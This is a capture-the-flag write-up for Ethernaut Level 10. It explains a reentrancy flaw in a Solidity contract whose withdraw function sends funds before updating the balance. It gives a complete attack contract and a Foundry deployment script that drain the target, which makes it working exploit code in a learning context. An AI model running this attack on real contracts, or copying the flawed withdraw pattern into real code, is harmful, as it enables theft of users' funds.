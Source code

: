 # Ethernaut Level 10 Re-entrancy

---

Contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Reentrance {
    using SafeMath for uint256;

    mapping(address => uint256) public balances;

    function donate(address _to) public payable {
        balances[_to] = balances[_to].add(msg.value);
    }

    function balanceOf(address _who) public view returns (uint256 balance) {
        return balances[_who];
    }

    function withdraw(uint256 _amount) public {
        if (balances[msg.sender] >= _amount) {
            (bool result,) = msg.sender.call{value: _amount}("");
            if (result) {
                _amount;
            }
            balances[msg.sender] -= _amount;
        }
    }

    receive() external payable {}
}
```

Our goal is to steal all the money from the target contract. We can see that in the `withdraw(uint256 _amount)` function, this contract does not follow the CEI (check-effect-interact) pattern, making an interaction **before** the state change. 

The receiver of the funds can be another contract instead of just plain address. The receiver can exploit your contract by calling your `withdraw` function *inside* its `receive()` logic. Since the line `balances[msg.sender] -= _amount;` is still not hit, the `withdraw` function will get called again and again until the balance of the contract drains. We can create an attack contract exactly like this.

`ReentranceAttack.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

interface IReentrance {
    function donate(address _to) external payable;
    function withdraw(uint256 _amount) external;
}

contract ReentranceAttack {
    IReentrance reentrance;
    uint256 donationAmount;

    constructor(address _reentranceAddress) public payable{
        reentrance = IReentrance(_reentranceAddress);
        donationAmount = msg.value;
    }

    function attack() external {
        reentrance.donate{value: donationAmount}(address(this));
        reentrance.withdraw(donationAmount);
    }

    receive() external payable {
        uint256 reentranceBalance = address(reentrance).balance;
        if (reentranceBalance >= donationAmount) {
            reentrance.withdraw(donationAmount);
        } else if (reentranceBalance > 0) {
            reentrance.withdraw(reentranceBalance);
        }
    }
}
```

In the `attack()` function, we first donate a certain amount of money to enter the transaction logic of the target, and then call `withdraw` to initiate the attack. Inside `receive()` function we create a mirror-like reflection logic to reenter the transaction. 

`Reentrance.s.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import {Script, console} from "forge-std/Script.sol";
import {Reentrance} from "../src/Reentrance.sol";
import {ReentranceAttack} from "../src/ReentranceAttack.sol";

contract ReentranceScript is Script {
    Reentrance reentrance = Reentrance(0xXXXXXXXXXXXXXX);
    uint256 donationAmount = 0.001 ether;

    function run() external {
        console.log("Reentrance balance before attack:", address(reentrance).balance);
        vm.startBroadcast();
        ReentranceAttack attackContract = new ReentranceAttack{value: donationAmount}(address(reentrance));
        attackContract.attack();
        vm.stopBroadcast();
        console.log("Reentrance balance after attack:", address(reentrance).balance);
    }
}
```

